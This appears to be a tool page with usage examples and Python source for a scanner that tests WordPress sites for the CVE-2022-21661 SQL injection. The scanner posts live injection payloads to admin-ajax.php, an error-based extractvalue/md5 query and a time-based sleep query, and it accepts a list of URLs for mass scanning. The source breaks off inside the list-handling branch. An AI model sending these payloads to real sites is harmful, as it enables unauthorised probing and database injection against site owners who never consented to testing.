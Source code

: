 
## 🧪 Usage Example

Scanning a single site:

```bash
python3 main.py -u https://example.com
```

Scanning multiple WordPress sites from a list of URLs:

```bash
python3 main.py -f urls.txt
```


## Raw Source - Python


```import requests, hashlib, random, argparse, os
from urllib.parse import urlparse
parser = argparse.ArgumentParser(
                    prog='main.py',
                    description='Identify CEV-2022-21661 in Wordpress instances.',
                    epilog='by FauzanAldi')
parser.add_argument('-u', '--url',help='A single URL to check.')
parser.add_argument('-f', '--file',help='A list of URLs to check.')
args=parser.parse_args()
if not args.url and not args.file:
    parser.print_help()
elif args.url and args.file:
    print('Only either -f (--file) or -u (--url) can be used!')
else:
    if args.url:
        url=args.url
        print('Attempting to locate CVE-2022-21661...')
        url=urlparse(url)
        r0 = requests.get(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
        if r0.status_code == 400 and '0' in r0.text:
            randNum = str(random.randint(1234567890987654321,9999999999999999999)).encode('utf-8')
            data='{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) and extractvalue(rand(),concat(0x5e,md5(' + str(randNum) + '),0x5e))#"]}}}'
            r1 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
            if r1.status_code == 200 and str(hashlib.md5(randNum).hexdigest()) in r1.text:
                print('Vulnerable!')
            else:
                print('Failed on MD5, testing time based query...')
                data = '{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) or (select sleep(5))#"]}}}'
                r2 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                if r2.elapsed.total_seconds() >= 5 and r2.status_code == 200:
                    print('Vulnerable!')
                else:
                    print('Not Vulnerable! (Failed after checking for CVE using 2 PoC\'s)')
        else:
            print('Not Vulnerable! (Failed at admin-ajax check)')
    if args.file:
        if os.path.exists(args.file):
            with open(args.file) as f:
                urls=f.read().split('\n')
```